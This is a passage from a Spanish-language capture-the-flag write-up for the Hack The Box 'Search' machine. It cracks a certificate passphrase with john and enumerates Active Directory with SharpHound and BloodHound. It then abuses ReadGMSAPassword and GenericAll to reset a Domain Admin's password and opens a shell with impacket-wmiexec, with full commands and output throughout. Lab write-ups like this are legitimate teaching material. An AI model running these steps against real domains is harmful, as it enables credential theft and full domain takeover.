. DHc 0 Mon Aug 10 16:39:17 2020
.. DHc 0 Mon Aug 10 16:39:17 2020
search-RESEARCH-CA.p12 Ac 2643 Fri Jul 31 11:04:11 2020
staff.pfx Ac 4326 Mon Aug 10 16:39:17 2020
3246079 blocks of size 4096. 533816 blocks available
Después de indagar acerca de su uso, se encontró que es posible crackear el .pfx por lo que haciendo uso de pfx2john se extrajo/generó el hash correspondiente para posteriormente hacer uso de john para crackearlo. Encontrando así la passphrase misspissy.
└─$ pfx2john staff.pfx > staff_pfx_hash
└─$ catn staff_pfx_hash
staff.pfx:$pfxng$1$20$2000$20$ab06d852d1875d818341c5737782c7117277265e$308210873082062006092a864886f70d010701a08206110482060d3082060930820605060b2a864886f70d010c0a0102a08204fe308204fa301c060a2a864886f70d010c0103300e0408cc8cfc26a5...
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt staff_pfx_hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
misspissy (staff.pfx)
1g 0:00:00:44 DONE (2023-05-04 00:33) 0.02269g/s 124478p/s 124478c/s 124478C/s misssnamy..missnono
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
Al no contar específicamente con un escenario planteado en el uso del .p12 como lo es indicado aquí se buscó importar el certificado en el navegador para saber si de alguna forma estaba sirviendo como forma de autenticación contra las rutas encontradas a las cuales no se tenía acceso vía web (staff y certsrv). Importando desde opciones de firefox en la sección de "Certificate Manager", en donde se pedirá la passphrase antes encontrada.

Posteriormente accediendo desde el subdominio https://research.search.htb/staff/ se puede visualizar un login de powershell desde la web, en donde al proveer las credenciales encontradas se obtiene acceso a la máquina.

Post Explotación
Enumeración
Al tratarse de una máquina unida a dominio se recopiló información haciendo uso de SharpHound para una vez obtenida, analizarla con BloodHound. Por lo que se subió el archivo SharpHound.exe y se ejecutó sin parámetros para recopilar el .zip con la información del dominio.
PS C:\Users\Sierra.Frye\Documents>
cp \\10.10.16.4\smbFolder\SharpHound.exe .
PS C:\Users\Sierra.Frye\Documents>
.\SharpHound.exe
2023-05-09T13:45:04.2992791+01:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-05-09T13:45:04.7524092+01:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-05-09T13:45:04.7836667+01:00|INFORMATION|Initializing SharpHound at 13:45 on 09/05/2023
2023-05-09T13:45:17.7604712+01:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-05-09T13:45:17.9323511+01:00|INFORMATION|Beginning LDAP search for search.htb
2023-05-09T13:45:18.0417048+01:00|INFORMATION|Producer has finished, closing LDAP channel
2023-05-09T13:45:18.0573303+01:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-05-09T13:45:48.3532054+01:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 33 MB RAM
2023-05-09T13:46:13.6037415+01:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2023-05-09T13:46:13.6193716+01:00|INFORMATION|Output channel closed, waiting for output task to complete
2023-05-09T13:46:13.7131142+01:00|INFORMATION|Status: 345 objects finished (+345 6.272727)/s -- Using 41 MB RAM
2023-05-09T13:46:13.7131142+01:00|INFORMATION|Enumeration finished in 00:00:55.7851484
2023-05-09T13:46:13.8068698+01:00|INFORMATION|Saving cache with stats: 305 ID to type mappings.
309 name to SID mappings.
0 machine sid mappings.
2 sid to domain mappings.
0 global catalog mappings.
2023-05-09T13:46:13.8224917+01:00|INFORMATION|SharpHound Enumeration Completed at 13:46 on 09/05/2023! Happy Graphing!
PS C:\Users\Sierra.Frye\Documents>
ls -force
Directory: C:\Users\Sierra.Frye\Documents
Mode LastWriteTime Length Name
---- ------------- ------ ----
d--hsl 4/7/2020 10:07 PM My Music
d--hsl 4/7/2020 10:07 PM My Pictures
d--hsl 4/7/2020 10:07 PM My Videos
d----- 7/31/2020 9:00 AM WindowsPowerShell
-a---- 5/9/2023 1:46 PM 26410 20230509134613_BloodHound.zip
-a---- 4/18/2023 3:01 AM 1051648 SharpHound.exe
-a---- 5/9/2023 1:46 PM 48450 Y2IwYjcwMmYtN2IwMC00MGNjLWI1MTAtZWYzMDU1ZmVlMjRj.bin
PS C:\Users\Sierra.Frye\Documents>
Al descargar y cargar el archivo 20230509134613_BloodHound.zip a BloodHound, se buscó identificar las cuentas a las que se contaba con acceso para marcarlas como "Owned".

Para después dentro de la sección de análisis buscar el camino más rápido de los Principals obtenidos hacia Domain Admin. Encontrando un camino potencial de sierra.frya a tristan.davies por medio del abuso del permiso ReadGMSAPassword que existe en el grupo ITSEC para BIR-ADFS-GMSA$ y desde mismo hacia tristan.davies existe un permiso GenericAll disponible para abusar.

Escalación de privilegios
sierra.frya → tristan.davies
Inicialmente para abusar del permiso ReadGMSAPassword se encontró el siguiente fragmento de instrucciones en powershell para obtener un NT-Hash e intentar autenticarse con este, sin embargo no se logró de manera satisfactoria.
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA$' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
Por lo que en su lugar, se optó por ejecutar las siguientes instrucciones para concatenar el abuso de ReadGMSAPassword con el GenericAll de BIR-ADFS-GMSA$ ya que con la lectura de la contraseña GMSA se puede generar un objeto de tipo credencial y así impersonar al usuario tristan.davies y ejecutar cualquier comando, por ejemplo, un reseteo de contraseña del mismo.
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA$' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
$cred = new-object system.management.automation.PSCredential "search.htb\BIR-ADFS-GMSA$",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -force)} -Credential $cred
Y así obtener acceso como Domain Admin en la máquina por medio de impacket-wmiexec. Al momento de realizar la máquina se intentó acceder haciendo uso de impacket-psexec y impacket-smbexec pero no se tuvo éxito.
└─$ impacket-wmiexec 'search.htb/tristan.davies:Password1234!@10.10.11.129'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
search\tristan.davies
C:\users\administrator\desktop>net user tristan.davies
User name Tristan.Davies
Full Name Tristan Davies
Comment The only Domain Admin allowed, Administrator will soon be disabled
User's comment
Country/region code 000 (System Default)
Account active Yes
Account expires Never
Password last set 08/05/2023 15:43:39
Password expires Never
Password changeable 09/05/2023 15:43:39
Password required Yes
User may change password Yes
Workstations allowed All
Logon script
User profile
Home directory
Last logon 08/05/2023 15:35:43
Logon hours allowed All
Local Group Memberships *Administrators
Global Group memberships *Domain Admins *Domain Users
*Enterprise Admins *Group Policy Creator
*Schema Admins
The command completed successfully.
Notas adicionales
Al comparar mi resolución me di cuenta que para visualizar la columna protegida del archivo en excel Phishing_Attempt.xlsx, es posible eliminar la protección, borrando la etiqueta <sheetProtection> de xl/worksheets/sheet2.xml y creando de nuevo un zip desde la raíz, de esta manera sería posible visualizar también las columnas directamente en la hoja de cálculo.
└─$ zip phishing.xls -r .
adding: docProps/ (stored 0%)
adding: docProps/app.xml (deflated 52%)
adding: docProps/core.xml (deflated 47%)
adding: _rels/ (stored 0%)
adding: _rels/.rels (deflated 60%)
adding: [Content_Types].xml (deflated 79%)
adding: xl/ (stored 0%)
# Data truncada